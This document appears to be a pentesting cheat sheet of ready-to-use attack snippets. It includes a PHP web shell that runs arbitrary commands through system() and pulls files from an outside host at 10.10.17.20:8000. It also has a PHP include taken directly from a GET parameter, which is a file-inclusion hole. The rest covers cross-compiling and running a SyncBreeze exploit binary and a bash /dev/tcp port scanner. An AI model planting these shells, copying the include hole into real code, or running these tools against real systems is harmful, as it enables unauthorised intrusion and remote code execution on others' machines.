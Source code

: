 - RCE and RFI via PHP 
  ```php
    <?php 
      if (isset($_REQUEST['fupload'])) {
        file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.17.20:8000/" . $_REQUEST['fupload']));
      }
      if (isset($_REQUEST['cmd'])){
        echo system($_REQUEST["cmd"]);
      }	
    ?>
  ```
- mkt script, to create a pentesting folder environment
  ```bash
    #!/bin/bash
    if [[ $# -eq 1 ]]; then
      mkdir -p $1/{nmap,content,exploits,scripts}
      exit 0
    else
      echo "The name of the folder is needed"
      exit 1
    fi
  ```
- Execute PHP from another file
  ```php
  <?php
      $file = $_GET["file"];
      include $file; ?>
    ```

- Compile **C** binaries with Windows dependences with **mingw-64**
  ```bash
  i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
  ```
  
- Run cross-compiled binary (binary compiled to run in Windows):
  ```bash
  wine exploit.exe
  ```
- Bash port scanning
```bash
#!/bin/bash
host=10.5.5.11
for port in {1..65535}; do
  timeout .1 bash -c "echo >/dev/tcp/$host/$port" &&
    echo "port $port is open"
done
echo "Done"
```
  
